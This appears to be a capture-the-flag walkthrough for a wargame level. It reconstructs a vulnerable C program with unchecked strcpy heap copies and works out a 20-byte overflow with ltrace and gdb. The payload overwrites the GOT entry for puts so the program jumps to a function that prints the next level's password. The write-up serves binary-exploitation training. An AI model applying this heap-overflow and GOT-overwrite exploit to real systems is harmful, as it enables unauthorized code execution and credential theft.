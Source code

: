 # Level 7

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdlib.h>
#include <stdio.h>
#include <time.h>
#include <string.h>

struct s {
    int id;
    void *ptr;
};

char c[80] = "";

void m()
{
    printf("%s - %d\n", c, time(0));
}

int main(int argc, char **argv)
{
    struct s *buffer1;
    struct s *buffer2;

    buffer1 = malloc(8);
    buffer1->id = 1;
    buffer1->ptr = malloc(8);

    buffer2 = malloc(8);
    buffer2->id = 2;
    buffer2->ptr = malloc(8);

    strcpy(buffer1->ptr, argv[1]);
    strcpy(buffer2->ptr, argv[2]);

    fgets(c, 68, fopen("/home/user/level8/.pass", "r"));
    puts("~~");
    return 0;
}
```

Let's focus on the `main` function. It reads input from the command line then copies it to our buffer using `strcpy`, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes copied.

Since we're interacting with the heap here we won't have to worry about the stack layout, in this case we'll have to overflow the value pointed by `buffer1->ptr` until we reach `&buffer2->ptr` and write the address of the GOT entry of `puts` to it. Then, thanks to the second `strcpy`, we'll be able to overwrite the value that the GOT entry address for `puts` points to with the address of the `m` function.

Yet again this exercise utilizes PLT and GOT, so please refer to the [level5 walkthrough](../level5/walkthrough.md) for a detailed explanation of how it works.

We'll use `ltrace` to understand the memory allocations and calculate the size needed for the overflow:
```bash
$ ltrace ./level7 arg1 arg2
__libc_start_main(0x8048521, 3, 0xbffff7d4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8) = 0x0804a008  #buffer1 = malloc(8);
malloc(8) = 0x0804a018  #buffer1->ptr = malloc(8);
malloc(8) = 0x0804a028  #buffer2 = malloc(8);
malloc(8) = 0x0804a038  #buffer2->ptr = malloc(8);
strcpy(0x0804a018, "arg1") = 0x0804a018
strcpy(0x0804a038, "arg2") = 0x0804a038
[...]
```

As mentioned before we want overflow the value pointed by `buffer1->ptr` until we reach `&buffer2->ptr`. So let's calculate the offset needed:
```
buffer1->ptr = 0x0804a018
buffer2 = 0x0804a028
0x0804a028 - 0x0804a018 = 16 bytes

0x0804a028 + 4 bytes (because buffer->id is an int) = 0x0804a02c
&buffer2->ptr = 0x0804a02c

16 bytes + 4 bytes = 20 bytes of padding
```

Using gdb we find that that the address of the `m` function is `0x080484f4` and that the address of the GOT entry for `puts` is `0x8049928`.

We can then craft our payload:
```
arg1 = padding + address of the GOT entry for puts
arg2 = address of m

arg1 = "A"*20 + "\x08\x04\x99\x28"
arg2 = "\x08\x04\x84\xf4"
```

Let's run our payload:
```bash
level7@RainFall:~$ ./level7 `python -c 'print("A"*20 + "\x08\x04\x99\x28"[::-1])'` `python -c 'print("\x08\x04\x84\xf4"[::-1])'`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1702752190
```

We are now level8! Let's move on to the next level.
